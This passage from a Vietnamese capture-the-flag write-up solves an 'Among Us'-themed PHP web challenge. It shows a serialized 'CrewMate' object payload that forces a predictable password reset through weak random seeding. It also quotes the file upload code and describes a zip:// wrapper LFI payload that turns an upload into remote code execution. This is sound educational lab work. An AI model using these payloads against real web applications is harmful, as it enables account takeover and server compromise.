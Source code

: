 $secret_number= [1,2,3,4,5,6,7,8,9];
$random_rand = rand(0,$secret_number);
srand($random_rand);
$new_password = "";
while(strlen($new_password) < 30) {
	$new_password .= strval(rand());
}   
echo($new_password); 
{% endhighlight %}
Password được reset: `117856802212731241191535857466`
- Payload để truyền `secret_number`:  
`O:8:"CrewMate":2:{s:4:"name";s:8:"john_doe";s:13:"secret_number";a:9:{i:0;s:1:"0";i:1;s:1:"e";i:2;s:1:"1";i:3;s:1:"2";i:4;s:1:"3";i:5;s:1:"4";i:6;s:1:"5";i:7;s:1:"6";i:8;s:1:"7";}} (nhớ base64encode)`. Tên `john_doe` có thể lấy từ trang crew (ko cần đăng nhập). 	

=> Vậy là chúng ta đã có thể đăng nhập, tiến đến bước RCE.
#### *3. Phase 3: RCE tìm flag*
- Trên trang upload của `electrical.php`:
{% highlight ruby %}
function upload($file) {
	if(isset($file))
	{
		if($file["size"] > 1485760) {
			die('<center>IMPOSTOR ALERT!!!</center>');
		}	
		$uploadfile=$file["tmp_name"];
		$folder="crew_upload/";
		$file_name=$file["name"];
		$new = $file["tmp_name"].$file_name;
		move_uploaded_file($file["tmp_name"], $new);
		$zip = new ZipArchive(); 
		$zip_name ="crew_upload/".md5(uniqid(rand(), true)).".zip"; // Zip name
		if($zip->open($zip_name, ZIPARCHIVE::CREATE)!==TRUE)
		{ 
		 	echo "Sorry ZIP creation failed at this time";
		}
		$zip->addFile($new);
		$zip->close();
		if(isset($_SESSION["link"]) && !empty($_SESSION["link"])) {
			unlink($_SESSION["link"]);
			unset($_SESSION["link"]);
		}
		$_SESSION["link"] = $zip_name;
		header("Refresh: 0");
	}
}
{% endhighlight %}
- File sẽ được update vào folder `crew_upload`, random tên file bất kì và nén vào file zip. Đến đây, việc khai thác RCE sẽ sử dụng zip wrapper. Tham khảo `https://www.corben.io/zip-to-rce-lfi/`, payload sẽ có dạng `http://127.0.0.1/?page=zip:///crew_upload/43cf9e8a4f6c464d12e6d64d56cb16ce.jpg%23/tmp/phppirTVd1` với phần `/tmp/phppirTVd1` được lưu đồng thời trong `/tmp` sau khi đẩy lên.
- Đến đây, mình đã nghĩ là dễ dàng để lấy flag, tuy nhiên, tác giả đã khá 'quái' khi để flag ở trong db. Và cuối cùng, tới gần 5h chiều, mình mới lấy được flag để submit: